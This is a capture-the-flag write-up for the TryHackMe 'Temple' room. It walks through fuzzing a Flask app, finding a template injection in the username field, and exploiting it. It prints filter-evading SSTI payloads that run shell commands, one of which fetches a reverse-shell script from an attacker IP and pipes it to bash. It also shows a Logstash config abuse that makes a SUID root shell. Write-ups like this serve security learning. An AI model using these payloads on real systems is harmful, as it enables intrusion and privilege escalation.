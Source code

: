 **Temple - Hard**

**Category: Security, Web, Hacking, Flask**

**URL: https://tryhackme.com/room/temple**


**Thoughts about the challenge before starting the challenge.**
When looking at the task, based on the name and the categories, it is most likely a Server-Side Template Injection (SSTI) vulnerability that will be exploited.
Python Werkzeug Flask is well known in CTFs to contain SSTI vulnerability, and the name of the challenge also hints at the T in the SSTI.
The difficulty of the challenge could be based on how hard it is to find the vulnerability, if it is hard to exploit, bypassing of filters, and as well the difficulty of the privilege escalation.


**Process for obtaining Flag1.txt:**

**Open ports and services:**
````
7 echo: this service only echoes back what is being sent to it.
21 ftp - 22 ssh - 23 telnet: not leaking any sensitive data and would be time-consuming to brute force.
80 Apache HTTP: Not more than the default Apache site.
61337 Werkzeug HTTP: Based on the thoughts of the challenge, this is the service that most likely would contain the SSTI vulnerability and the service being tested at the highest priority.
````

When accessing the website ````http://IP:61337````, we are being redirected to ````/login````.
This path only contains a login form and has no functionality to access other paths.
The source code does not leak any other paths.


The login form is tested with simple SQLi and more advanced, as well as the automatization tool sqlmap without any signs of SQLi vulnerability.


Next is file and directory discovery through fuzzing.
Because this is a Flask web application, the fuzzing would be done without extensions.
Initially, I would always use a short wordlist with common names.
In Kali Linux, a standard wordlist is found at ````/usr/shar/wordlist/dirb/common.txt````.
This gave some results, but not what was needed. Therefore it was essential to test with other wordlists.
The other wordlists are the ````SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-(small|medium|big).txt````.
As for this, I start with the smallest wordlist first and then escalate to the bigger wordlists if needed.
This was a time-consuming task at first, and it tested the patience of the enumeration process.
````The biggest tip for this process is to use FFUF and set the threads flag at a high level.````
I found that both ````100 and 200 threads gave the same result````. This gave me the result after 3 minutes and 40 seconds.
If running default at the configuration of ````40 threads````, this would take a lot more time. If the service is slow, it could take over an hour.
At my first attempt at fuzzing for paths, the last path was not found after one and a half hours of fuzzing.
This resulted from a slow service and a low amount of threads. 


**common.txt result:**
````
302 - /account                                              
403 - /admin                                                
302 - /application                                           
302 - /external                                             
302 - /home                                                  
302 - /internal                                            
200 - /login                                               
302 - /logout                                               
200 - /robots.txt                                            
403 - /temporary
403 - /temporary/dev
````

**SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:**
````
200 - /temporary/dev/newacc
````

The endpoint found is an endpoint where we could create an account.
This only requires an ````email, username, and password```` where the username must be longer than ````5```` and the password longer than ````8````.
After creating the account, we could login to the user portal, which gives access to the paths with the ````302 code````.


Under the path ````/account````, the representative account username is displayed.
This is important to test further since it could display an SSTI vulnerability.
By creating a new account with ````{{5*5}}```` as username, the username displayed when logged in should display ````25```` if it is vulnerable.
If not, it could be filtered to bypass, or the correct field still needs to be found.


After creating an account with username ````{{5*5}}````, the account path does show ````25````, which means it has an SSTI vulnerability, as expected from the name and category.
This could be exploited with os commands and reverse shell.


To get a foothold, Hacktricks is a fantastic tool with many copy-paste codes that could be pasted into the username field with some modifications to make it do what we want.
The cheat sheet for SSTI at hacktrick is found at: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection .


All the snippets from this site were tested, but all were rejected by the server as a hacking attempt.
This means we have to find other ways to bypass different filters which could be used.
For this, I found this site through Google: https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can


**The one used was this**:
````
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
````

This is still rejected because a hacking attempt was made, but based on the website, this should bypass most of the filters.
I tested the same but changed the ````'```` to, ````"```` and this was the last bypass needed.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("whoami")|attr("read")()}}
````

This gave the result in the username field of the account endpoint, ````bill````, which means that the ````bill```` user on the server is the user who owns the running service.
This would also make the reverse shell identity ````bill```` after successful exploitation.
For the process of gaining foothold, it is essential to start a listener.
When testing basic reverse shells, it was either reported as a hacking attempt or not giving a result to the listener.
Then I tested with a simple curl command to my IP and the listening port, which gave a hit.
This means we could create a simple bash reverse shell in a file and then open a Python server, making the curl command possible to access the file.
Therefore, changing ````whoami```` from the SSTI above to ````curl http://IP:port/reverseshellfile|bash```` would collect and execute the code.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl http://10.9.80.181/sstibypassshell|bash")|attr("read")()}}
````

After inserting this as the username and creating the account, a reverse shell is spawned when accessing the ````/account```` path.
This gave foothold as ````bill````, and the first flag was found under ````/home/bill/flagg1.txt````.


**Useful commands for a better shell:**
````
1. on the target: python3 -c 'import pty;pty.spawn("/bin/bash")'
2. on the target: export TERM=xterm
3. on the target: Ctrl + Z
4. in the same window as the target is being backgrounded: stty raw -echo; fg
5. on the target: stty rows 38 columns 116
````

This would make it possible to arrow up for earlier commands, clear to clear the terminal.
The terminal is not being exited with ````CTRL + C````, making it possible to run other scripts on the target and use ````CTRL + C```` to exit that script and not the terminal reverse shell.


**Process for obtaining Flag2.txt:**

When enumerating for escalating possibilities, I always check manually at first before using auto scripts like Linpeas.
This is because some escalations could often be found faster by one or multiple commands than by a script running multiple processes to gather critical information.
For this, commands like ````netstat -tvlp```` to look for undiscovered open ports or locally open ports,
````find / -perm -4000 2>/dev/null```` to find SUID binaries which could be abused,
check directories like ````/home```` for which users we could privesc to, ````/opt /tmp```` for abnormalities, the flask application found at ````/home/bill/webapp```` as well as running processes.
For running processes, I like to use ````pspy64```` since it would check live processes and spawning processes, which could give a cronjob run by root that could be used.
Using ````ps```` for running processes could miss cronjobs being executed.


When using the ````pspy64````, a binary: ````/usr/share/logstash/jdk/bin/java```` is being executed by root.
Searching for logstash at hacktricks introduces us to a privilege escalation possibility.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash


The first indicator for this vulnerability is if this file ````/etc/logstash/pipelines.yml contains 'path.config: "/etc/logstash/conf.d/*.conf"'````.
The * means it would use all the .conf files inside the path /etc/logstash/conf.d/. 


````pipeline.yml```` on the target, which indicated what was explained above from hacktricks.
````
- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
````

The following important part of this exploit is to have write permission to the directory conf.d or a file inside.
In this case, we do not have write permission to the directory, but we have write permission to the only conf file inside the directory: ````logstash-sample.conf````.
````
dr-xr-xr-x   2 root root  4096 Oct  3  2021 conf.d
-r--r--rw- 1 root root 101 Oct  4  2021 logstash-sample.conf
````

The last thing we need is a way to reload the service.
The file ````/etc/logstash/logstash.yml```` contains information about the config reloading automatically every third second.
This means it is possible to exploit the vulnerability.


````logstash.yml```` on the target, which indicates the reloading process.
````
config.reload.automatic: true
config.reload.interval: 3s
````

By writing this code into the config file, we would copy the ````/bin/bash```` binary to a replica and add SUID privileges to the binary,
which means we could run this binary with the ````-p```` flag and have root privileges.
This code is the one found at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash , but with another command.


**privesc exploit:**
````
input {
  exec {  
    command => "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"    
    interval => 120    
  }
}

output {
  file { 
    path => "/tmp/output.log"   
    codec => rubydebug   
  }  
}
````

The last flag is then found at ````/root/flag2.txt````.


**More information:**

We got access to the bill user based on the SSTI, but there were also found 2 other users, frankie and princess.
After the challenge was completed, there was found a possibility to crack the princess password based on the hash found in ````/etc/shadow````.
This was only tested with the Rockyou wordlist. This indicates that the server allows users to have bad passwords.

It is also possible to obtain access to the MySQL service.
Credentials for this service are leaked in the ````/home/bill/webapp/app.py````.
